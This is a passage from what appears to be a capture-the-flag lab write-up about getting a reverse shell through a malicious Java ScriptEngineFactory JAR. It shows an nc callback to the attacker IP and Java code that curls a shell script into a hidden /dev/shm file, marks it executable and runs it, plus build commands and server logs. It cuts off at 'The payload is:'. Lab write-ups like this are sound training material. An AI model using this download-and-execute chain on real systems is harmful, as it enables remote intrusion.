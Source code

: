 Stepping back, I tried just putting `nc 10.10.14.7 443` into `Runtime.getRuntime().exec()`, and it connected back. So it isn’t a firewall, but rather something about how Java is running the reverse shells. What about `curl`? I’ll modify the Java source to issues `curl http://10.10.14.7`, recompile / re-Jar, and trigger, and it works:

```
10.10.10.227 - - [15/Feb/2021 07:34:28] "GET /rev.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Feb/2021 07:34:28] "GET /rev.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Feb/2021 07:34:29] "GET / HTTP/1.1" 200 -

```

I’ve run into this before. Java has issues when you include pipes or redirects in the execution payloads. The best way around this is to do it in steps:
1. Use `curl` or `wget` to upload a Bash script that provides a ReverseShell.
2. `chmod` that script `+x`.
3. Call the script.

This can be done in one JAR payload:

```

 10     public AwesomeScriptEngineFactory() throws InterruptedException {
 11         try {
 12             Process p = Runtime.getRuntime().exec("curl http://10.10.14.7/shell.sh -o /dev/shm/.s.sh");
 13             p.waitFor();
 14             p = Runtime.getRuntime().exec("chmod +x /dev/shm/.s.sh");
 15             p.waitFor();
 16             p = Runtime.getRuntime().exec("/dev/shm/.s.sh");
 17         } catch (IOException e) {
 18             e.printStackTrace();
 19         }
 20     }

```

I’ll compile, Jar, and move it into `www`:

```

oxdf@parrot$ javac src/artsploit/AwesomeScriptEngineFactory.java
oxdf@parrot$ jar -cvf rev.jar -C src/ .
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1837) (out= 784)(deflated 57%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1730) (out= 462)(deflated 73%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
oxdf@parrot$ mv rev.jar www/

```

The payload is:
